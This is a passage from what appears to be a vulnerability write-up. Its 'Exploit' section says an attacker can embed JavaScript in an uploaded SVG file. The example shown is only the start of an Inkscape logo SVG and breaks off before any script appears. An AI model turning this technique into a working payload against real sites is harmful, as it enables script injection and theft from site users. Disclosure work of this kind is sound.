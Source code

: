 ![](./public/a-3.png)

### Exploit
The attacker can craft an SVG file with embedded JavaScript, for example:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>

<svg
   xmlns:dc="http://purl.org/dc/elements/1.1/"
   xmlns:cc="http://creativecommons.org/ns#"
   xmlns:rdf="http://www.w3.org/1999/02/22-rdf-syntax-ns#"
   xmlns:svg="http://www.w3.org/2000/svg"
   xmlns="http://www.w3.org/2000/svg"
   xmlns:sodipodi="http://sodipodi.sourceforge.net/DTD/sodipodi-0.dtd"
   xmlns:inkscape="http://www.inkscape.org/namespaces/inkscape"
   width="750"
   height="200"
   viewBox="0 0 198.4375 52.916666"
   version="1.1"
   id="svg8"
   sodipodi:docname="logo.svg"
   inkscape:version="0.92.5 (2060ec1f9f, 2020-04-08)">
  <g
     inkscape:label="Layer 1"
     inkscape:groupmode="layer"
     id="layer1"
     transform="translate(-9.8676114,4.8833333)">
    <path
       sodipodi:type="star"
       id="path3725-5"
       sodipodi:sides="6"
       sodipodi:cx="104.14816"
       sodipodi:cy="-16.792293"
       sodipodi:r1="7.333178"
       sodipodi:r2="6.350718"
       sodipodi:arg1="1.0502155"
       sodipodi:arg2="1.5738143"
       inkscape:flatsided="true"
       inkscape:rounded="0"
       inkscape:randomized="0"
       d="m 107.79557,-10.430538 -7.33315,-0.02213 -3.647402,-6.361755 3.685742,-6.339624 7.33314,0.02213 3.64741,6.361756 z"
       style="fill:#131f6b;fill-opacity:1;stroke-width:0.05937638"
```